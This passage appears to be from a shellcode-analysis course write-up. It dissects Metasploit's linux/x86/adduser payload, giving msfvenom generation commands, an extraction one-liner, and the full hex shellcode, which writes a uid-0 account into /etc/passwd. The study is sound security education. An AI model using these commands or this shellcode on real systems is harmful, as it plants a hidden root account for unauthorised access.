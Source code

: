 
There are 3 basic options:

- PASS: The password for this user (Required). Default: metasploit
- SHELL: The shell for this user. Default: /bin/sh
- USER: The username to create (Required). Default: metasploit

For this study we will use the three basic options:

```bash
msfvenom -p linux/x86/adduser USER=ricardo PASS=sectube SHELL=/bin/bash --platform=Linux -a x86 -f c
```


### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```bash
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f c USER=ricardo PASS=sectube SHELL=/bin/bash | grep '"' | sed -e 's/\"//g' | paste -sd "" - | tr ";" " "
```

Using it, we get the shellcode we will use for the study of the payload:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/adduser/3.png)


### Libemu

Libemu does not show any output in this case:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/adduser/4.png)

When the PNG picture is generated it is empty.


### Ndisasm

With ndisasm it is possible to get the .nasm code using:

```bash
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f raw USER=ricardo PASS=sectube SHELL=/bin/bash | ndisasm -u -
```


Or a little quicker:

```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/adduser/5.png)
